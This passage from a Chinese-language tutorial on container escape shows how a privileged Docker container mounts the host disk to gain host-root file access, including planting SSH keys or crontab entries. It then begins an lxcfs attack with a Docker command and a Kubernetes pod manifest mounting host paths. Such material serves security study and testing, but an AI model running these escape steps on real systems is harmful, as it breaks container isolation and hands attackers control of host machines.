 ## 挂载设备

**极易触发告警**

挂载设备读写宿主机文件是特权容器最常见的逃逸方式之一。

```bash
# --privileged 能赋予root权限
sudo docker run -it --privileged vulhub/confluence:7.13.6 /bin/bash
(容器随便复用了一下之前的)
```

然后查找宿主机设备，并且挂载

```bash
fdisk -l 
mount /dev/sda1 /tmp/mkdir
```

之后就相当于宿主机root用户，可以任意读写文件，写公钥，写Crontab （`tail -f /var/log/syslog` 查看系统日志）等等都可以。

## lxcfs攻击

lxcfs 提供容器中的资源可见性，是一个开源的FUSE（用户态文件系统）实现来支持LXC容器，它也可以支持Docker容器

LXCFS通过用户态文件系统，在容器中提供下列 procfs 的文件：

/proc/cpuinfo
/proc/diskstats
/proc/meminfo
/proc/stat
/proc/swaps
/proc/uptime

判断是否使用lxcfs：`	cat /proc/1/mountinfo`

```bash
#docker 启动
sudo docker run -it -v /var/lib/lxcfs/:/data/test/lxcfs:rw vulhub/confluence:7.13.6 /bin/bash

#k8s pod
apiVersion: v1
kind: Pod
metadata:
  name: lxcfs-rw
spec:
  containers:
  - name: lxcfs-rw-5
    image: nginx
    command: ["sleep"]
    args: ["infinity"]
    imagePullPolicy: IfNotPresent
    volumeMounts:
      - mountPath: /data
        mountPropagation: HostToContainer
        name: test-data
  volumes:
  - name: test-data
    hostPath:
      path: /data
      type: ""
```
